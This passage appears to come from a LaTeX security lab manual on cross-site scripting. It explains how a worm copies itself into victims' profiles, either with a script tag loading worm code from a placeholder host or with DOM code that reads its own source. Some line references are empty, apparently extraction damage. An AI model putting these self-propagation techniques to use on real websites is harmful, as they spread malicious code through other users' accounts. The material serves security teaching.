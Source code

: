 To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://example.com/xss_worm.js">
</script>
\end{lstlisting} 

\paragraph{DOM Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and displays it in an alert window:

{\footnotesize
\begin{lstlisting}
<script id=worm>
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}


It should be noted that {\tt innerHTML} (line ) only gives us the inside part of the
code, not including the surrounding {\tt script} tags. We just need to add the beginning tag
{\tt <script id="worm">} (line ) and the ending tag {\tt </script>} (line )
to form an identical copy of the malicious code.

